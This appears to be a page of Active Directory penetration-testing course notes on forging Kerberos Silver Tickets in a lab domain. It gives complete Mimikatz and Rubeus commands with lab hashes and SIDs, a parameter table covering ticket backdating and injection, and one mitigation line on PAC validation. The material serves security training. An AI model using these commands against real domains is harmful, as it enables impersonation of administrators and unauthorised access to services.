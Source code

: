 ```bash
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

It's possibile to forge TGS tickets for **other services** as well (e.g., `HOST`, `RPCSS`, `HTTP`, etc.) as long as you have the corresponding service account hash.

***

#### Parameters Explained (Mimikatz Syntax)

| Option                                        | Description                                                                                                      |
| --------------------------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| `kerberos::golden`                            | Mimikatz module used to forge the ticket. There is no `silver` module—Silver Ticket is technically a forged TGS. |
| `/user:Administrator`                         | The user to impersonate.                                                                                         |
| `/domain:dollarcorp.moneycorp.local`          | FQDN of the target domain.                                                                                       |
| `/sid:S-1-5-21-...`                           | SID of the domain.                                                                                               |
| `/target:dcorp-dc.dollarcorp.moneycorp.local` | FQDN of the target server hosting the service.                                                                   |
| `/service:CIFS`                               | Service Principal Name (SPN) to forge the TGS for.                                                               |
| `/rc4:<hash>` or `/aes256:<key>`              | Hash or AES key of the **service account**.                                                                      |
| `/id`, `/groups`                              | Optional: RID and group IDs of the user.                                                                         |
| `/startoffset:0`                              | When the ticket becomes valid (in minutes from now; `0` = now). Use negative for backdating.                     |
| `/endin:600`                                  | Ticket lifetime in minutes (default = 600 mins = 10 hours).                                                      |
| `/renewmax:10080`                             | Maximum renewable lifetime in minutes (default = 7 days).                                                        |
| `/ptt`                                        | Inject the ticket into the current process. No need to write to disk.                                            |

***

**Using Rubeus**

```powershell
C:\AD\Tools\Rubeus.exe silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:6e58e06e07588123319fe02feeab775d /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

```powershell
Rubeus.exe asktgs /user:Administrator /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /domain:dollarcorp.moneycorp.local /service:cifs/dcorp-dc.dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /ptt
```

To protect against this attacks:

* Enable PAC validation with the domain controller, because PAC represents a critical section af a Kerberos ticket that contains info about the user requesting ticket (User SID, Group membership, User rights and privileges and authorization data).

### Other References

* List of SPNs: https://adsecurity.org/?page\_id=183

### Labs

* [Learning Object 9 lab](../lab/9-lo9.md)
